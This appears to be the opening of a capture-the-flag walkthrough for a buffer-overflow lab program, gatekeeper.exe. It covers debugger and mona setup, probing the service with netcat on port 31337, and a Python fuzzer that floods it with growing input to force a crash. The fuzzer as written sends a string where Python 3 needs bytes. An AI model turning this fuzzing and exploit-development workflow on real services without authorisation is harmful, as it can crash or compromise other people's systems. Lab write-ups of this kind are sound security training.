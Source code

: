 Now that we have the Files we can transfer both files to the Windows 7 VM that has immunity Debugger.

    Right-click the Immunity Debugger icon on the Windows 7 VM and choose "Run as administrator".

I use the mona script, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

    !mona config -set workingfolder c:\mona\%p

The latest version can be downloaded here: https://github.com/corelan/mona

Open the gatekeeper.exe and have a look at how it functions

On your Kali box, connect to port 31337 on 192.168.133.131 using netcat: 

    nc 192.168.133.131 31337
    hello
    Hello hello!!!
    hello   
    Hello hello!!!
    HELLO HELLO
    Hello HELLO HELLO!!!

Now make sure to keep an eye on the exe its self so you can create a fuzzer

Fuzzing
=======

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

    #!/usr/bin/env python3
    import socket, time, sys
     
    ip = "127.0.0.1"
    port = 31337
     
    # Create an array of increasing length buffer strings.
    buffer = ['A']
    counter = 50
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 50
    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            connect = s.connect((ip, port))
            print("Fuzzing with %s bytes" % len(string))
            s.send(string + "\r\n")
            s.recv(1024)
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
